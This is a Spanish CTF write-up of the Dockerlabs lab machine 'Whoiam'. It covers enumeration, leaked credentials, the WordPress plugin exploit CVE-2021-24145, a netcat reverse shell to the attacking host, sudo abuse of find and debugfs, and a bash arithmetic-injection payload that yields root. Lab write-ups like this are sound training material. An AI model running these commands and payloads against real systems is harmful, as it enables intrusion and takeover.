# Writeup: Whoiam &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.18.0.2
- **Técnicas Clave:** Enumeración de puertos, Fuzzing web, Fuga de información expuesta, Explotación de plugin WordPress, Reverse Shell, Abuso de privilegios sudo

---
### Reconocimiento y Escaneo de Puertos
Se inició con un escaneo dirigido de servicios y versiones sobre los puertos expuestos del objetivo con **nmap**:

    $ nmap -sSV 172.18.0.2
  

#### Puertos descubiertos:
- **22/tcp** — *OpenSSH*
- **80/tcp** — *Apache HTTP Server*

---
### Enumeración Web y Fuzzing de Directorios
Se utilizó **gobuster** para identificar rutas y directorios ocultos en el servidor web:

    $ gobuster dir -u [http://172.18.0.2](http://172.18.0.2) -w /usr/share/seclists/Discovery/Web-Content/common.txt
  

#### Rutas descubiertas:
- **/backups/:** — (**Status:** 301)
- **index.php** — (**Status:** 301)
- **server-status** — (**Status:** 403)

Al inspeccionar la raíz se identificó una instalación de WordPress. Se procedió con la enumeración de usuarios válidos mediante **wpscan**:

    $ wpscan --url [http://172.18.0.2](http://172.18.0.2) --enumerate u

#### Usuarios encontrados:
- ```developer```
- ```erik```

Tras intentar fuerza bruta por SSH sin éxito debido a los tiempos de respuesta, se inspeccionó manualmente el directorio ```/backups/```, hallando el archivo comprimido ```databaseback2may.zip```.



Se descargó el archivo con **wget** y se extrajo su contenido:

    $ wget http://172.18.0.2/backups/databaseback2may.zip
    $ 7z x databaseback2may.zip
  

Se visualizó el archivo extraído ```29DBMay``` mediante **cat**, revelando credenciales en texto claro:



---
### Intrusión y Acceso Inicial
Con las credenciales obtenidas se inició sesión en ```/wp-login.php``` como el usuario ```developer``` de forma exitosa.



Al revisar la sección de plugins instalados se identificó ```Modern Events Calendar Lite``` en una versión vulnerable a subida arbitraria de archivos ```(CVE-2021-24145)```.





Se buscó el exploit correspondiente mediante **searchsploit**:

    $ searchsploit wordpress | grep -i "plugin modern"
  

Se descargó el script de ejecución remota de código (RCE) ```php/webapps/50082.py```:

    $ searchsploit -m php/webapps/50082.py
  

El archivo subió una webshell a la ruta ```http://172.18.0.2:80/wp-content/uploads/shell.php```:





Para entablar una conexión más cómoda, se puso un listener a la escucha con **netcat** en la máquina de ataque:

    $ nc -lnvp 4444
  

Y se envió una reverse shell interactiva desde la webshell:

    $ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 172.18.0.1 4444 > /tmp/f
  

Se obtuvo acceso al sistema bajo el contexto del usuario ```www-data```.

---
### Movimiento Lateral (www-data → rafa → ruben)
Se consultaron las reglas de sudoers para el usuario actual:

    $ sudo -l
  

Consultando **GTFOBins**, se abusó de **find** para pivotar al usuario ```rafa```:



    $ sudo -u rafa /usr/bin/find . -exec /bin/bash \; -quit
  

Bajo el contexto de ```rafa```, se volvieron a listar los permisos delegados:

    (ruben) NOPASSWD: /usr/bin/debugfs

Se abusó del binario interactivo ```debugfs``` para pivotar al usuario ```ruben```:

    $ sudo -u ruben /usr/bin/debugfs
    debugfs: !/bin/bash  
  
 
  

---
### Escalada de Privilegios
Desde la sesión de ruben se revisaron nuevamente los permisos de sudo:

    $ sudo -l

#### Resultadp:

    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh

Se examinó el script ```/opt/penguin.sh```, el cual solicita un valor numérico por entrada estándar y lo compara aritméticamente contra el valor ```42```.



Debido a que las comparaciones y evaluaciones aritméticas en Bash permiten interpretar expresiones y subshells en variables o arrays no sanitizados, se inyectó una ejecución de comandos en el prompt:

    $ sudo /bin/bash /opt/penguin.sh
    a[$(/bin/bash>&2)]+42
  

Al interpretarse la expresión aritmética, el intérprete evaluó la subshell ejecutando ```/bin/bash``` con privilegios de ```superusuario```.

Se verificó el compromiso total de la máquina ejecutando ```id && whoami``` dando así por concluida la máquina.
